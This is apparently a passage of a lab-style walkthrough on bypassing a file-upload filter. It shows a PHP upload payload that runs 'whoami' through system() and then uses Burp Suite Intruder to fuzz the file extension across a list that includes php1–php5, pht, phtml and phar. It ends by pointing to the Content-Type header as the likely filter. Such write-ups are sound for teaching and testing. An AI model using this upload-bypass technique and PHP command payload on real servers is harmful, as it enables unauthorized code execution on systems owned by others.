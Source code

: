 ```php



<?php
system("whoami")
?>


------WebKitFormBoundary5RKwj5GwTJjAOK9j

Content-Disposition: form-data; name="submit"



Upload

------WebKitFormBoundary5RKwj5GwTJjAOK9j--


```
press ```ctrl + i``` to send this to the intruder 

go to ```intruder``` press ```clear§``` and select the extention that we upload and press ```add``` example  it will appear likes this filename="whoami.```§php§" ```

go to payload tab ```payload``` go to add section and add the extentions example ```php1```,```php2```,```php3```,```html```,```jpg```,```gif```,```exe```,```php4```,```php5```,```pht```,```phtml```,```png```,```phar```

go to options tab and go to ```Grep - Extract``` and select ```add``` then ```fetch response``` 
and select ```bash Error: Invalid file type```

finally go to payloads 

and  press ```Start attack```

output

```bash 
 Error: Invalid file type
```
content type

Therefore, since we uploaded a .php file, I think it is interpreting something other than the extensions.

because if we check our > ```intruder``` > ```image Upload``` > ```Positions```

and take a look 
```php
------WebKitFormBoundary5RKwj5GwTJjAOK9j

Content-Disposition: form-data; name="file"; filename="whoami.§php§"

Content-Type: application/x-php

```
the content type is ```Content-Type: application/x-php``` 
